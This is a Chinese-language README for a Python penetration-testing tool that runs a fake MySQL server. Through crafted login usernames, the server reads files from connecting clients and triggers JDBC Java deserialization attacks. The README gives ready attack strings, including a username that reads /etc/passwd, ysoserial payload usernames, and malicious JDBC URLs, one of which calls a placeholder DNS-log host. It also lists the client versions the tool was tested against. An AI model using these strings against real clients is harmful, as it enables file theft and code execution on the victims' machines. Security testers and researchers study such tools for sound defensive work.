 # MySQL Fake Server
用于渗透测试过程中的假MySQL服务器，纯原生python3实现，不依赖其它包。

修改自项目https://github.com/waldiTM/python-mysqlproto

## 用途

1. MySQL服务端读取客户端文件漏洞利用
2. MySQL JDBC客户端Java反序列化漏洞利用

## 说明
1. 需要python3环境，无任何其它依赖。
2. 根据**登录用户名**返回文件读取利用报文、反序列化利用报文。
3. 需要[ysoserial](https://github.com/frohoff/ysoserial)才能用反序列化功能，支持ServerStatusDiffInterceptor和detectCustomCollations两种方式。
4. MySQL的用户名支持冒号、斜杠等特殊符号，但是能否使用还需看具体客户端环境。
5. 运行：`python server.py`
6. config.ini中预置了一部分配置信息

## 测试环境：
1. jdk1.8.20+mysql-connector-java 8.0.14/5.1.22(Windows下反序列化（JRE8u20）、文件读取)
2. PHPMyAdmin(Windows+Linux文件读取，可以使用相对路径读取php文件内容)
3. Navicat 12(Windows下文件读取，需要切换到mysql_clear_password认证插件)

## 使用方法
1. 文件读取：
    - 可以在config.json中fileread节中预定义好要读取的文件,key为用户名,value为要读取的文件名
    - 可以用fileread_开头的用户名(例如使用用户名fileread\_/etc/passwd来读取/etc/passwd文件)
2. 反序列化
    - 可在config.json中yso节预定义好yso payload的生成参数，key为用户名，value为ysoserial的参数
    - 可以用yso_开头的用户名，格式yso\_payload类型\_命令（例如jdk7u21调用calc就使用用户名yso\_Jdk7u21\_calc）
    - jdbc连接串示例：
      - `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc`
      - `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_URLDNS_http://yourdns.log.addr/`
3. 关于认证：默认认证插件一般使用**mysql_native_password**,但是由于议实现的问题，navicat下会连接失败，此时在使用的用户名后追加 **_clear** 即可切换为mysql_clear_password,navicat连接成功,读取到文件。
    - **例如：** fileread\_/etc/passwd_clear

## 效果

Navicat文件读取（用户名使用win_ini_clear）

![image-20200414150112426](README.assets/image-20200414150112426.png)

JDK 1.8.20+mysql-connector-java 8.0.14反序列化，使用用户名：yso_JRE8u20_calc

![image-20200414150417471](README.assets/image-20200414150417471.png)

## 踩过的坑

1. SHOW VARIABLES 相关
   - 会读取两列，所以需要返回两列，否则会报错。
   - JDBC连接的时候回通过调用`SHOW VARIABLES`获取服务器变量，其中最重要的是两个时区变量`system_time_zone`和`time_zone`，在getObject过程，会调用到时区相关信息，没有这两个会直接报错
2. jdbc的Blob判定条件除了字段类型为blob，还要求字段声明的org_table字段不为空，flags大于128，否则会被当做text进行解析。（com.mysql.cj.protocol.a.NativeProtocol的findMysqlType方法）
3. 原python-mysqlproto中的序列检测需要去掉，否则会出错（这个应该是哪里处理有问题导致了序号重置）。
4. `SHOW SESSION STATUS`和`SHOW COLLATION`的公用列是第二列
5. mysql java connector 5.x的环境下，需要返回的server版本大于等于5.0.0才会走到`Util.resultSetToMap`进入getObject

## 招聘了招聘~

360云安全团队目前大量招聘中，欢迎各位大佬投递简历，大家一起来愉快地玩耍~^_^

https://www.anquanke.com/post/id/200462

## 参考资料

**项目基础：**

https://github.com/waldiTM/python-mysqlproto

**漏洞相关:**

https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf

https://paper.seebug.org/1112/

https://github.com/codeplutos/MySQL-JDBC-Deserialization-Payload

**协议相关：**

https://dev.mysql.com/doc/internals/en/protocoltext-resultset.html

https://dev.mysql.com/doc/internals/en/character-set.html

https://dev.mysql.com/doc/internals/en/com-query-response.html#packet-Protocol::LOCAL_INFILE_Data